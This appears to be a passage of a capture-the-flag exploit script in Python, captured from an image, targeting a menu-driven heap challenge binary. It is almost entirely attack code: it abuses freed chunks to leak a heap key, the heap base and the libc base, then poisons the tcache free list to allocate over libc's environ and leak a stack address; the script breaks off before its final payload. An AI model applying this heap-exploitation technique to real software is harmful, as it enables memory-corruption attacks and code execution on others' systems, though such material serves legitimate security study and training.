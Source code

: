 ```python
    ru(b"-----Resize----\n")
    sl(i2b(choice))


def add(idx, size):
    cmd(1)
    ru(b"Where? ")
    sl(i2b(idx))
    ru(b"size? ")
    sl(i2b(size))


def delet(idx):
    cmd(2)
    ru(b"Where? ")
    sl(i2b(idx))


def show(idx):
    cmd(3)
    ru(b"Where? ")
    sl(i2b(idx))


def edit(idx, data):
    cmd(4)
    ru(b"Where? ")
    sl(i2b(idx))
    s(data)


add(0, 0x200)
add(1, 0x200)
add(2, 0x200)
add(3, 0x200)
add(5, 0x520)
add(4, 0x200)
delet(0)
delet(1)
show(0)
heap_key = u64_ex(rn(5))
lg("heap_key", heap_key)
heap_base = heap_key << 12
lg("heap_base", heap_base)

delet(5)
show(5)
libc_base = u64_ex(rn(6)) - 0x1D1CC0
lg("libc_base", libc_base)

delet(2)
delet(3)

edit(3, p64((libc_base + libc.sym.environ) ^ heap_key))
add(6, 0x200)
add(7, 0x200)
show(7)
stack_base = u64_ex(rn(6)) - 0x158 - 0x10
lg("stack_base", stack_base)

add(8, 0x120)
add(9, 0x120)
add(10, 0x120)
```